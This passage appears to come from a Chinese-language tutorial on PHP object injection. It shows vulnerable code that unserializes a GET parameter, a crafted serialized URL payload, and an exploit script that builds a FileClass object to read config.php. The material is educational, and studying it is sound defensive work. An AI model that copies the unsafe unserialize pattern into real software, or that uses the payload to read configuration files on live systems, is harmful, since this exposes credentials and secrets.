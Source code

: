 ```
    {
        return file_get_contents($this->filename);
    }
}

// Main User class

class User
{
    // Class data

    public $age = 0;
    public $name = '';

    // 允许对象作为一个字符串输出上面的data

    public function __toString()
    {
        return 'User ' . $this->name . ' is ' . $this->age . ' years old. <br />';
    }
}

// 用户可控

$obj = unserialize($_GET['usr_serialized']);

// 输出 __toString

echo $obj;

?>

```

so,我们构造url

```
script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}

```

再想想，如果我们用序列化调用 FileClass呢

我们创建利用代码

```
<?php

$fileobj = new FileClass();
$fileobj->filename = 'config.php';

echo serialize($fileobj);

?>

```

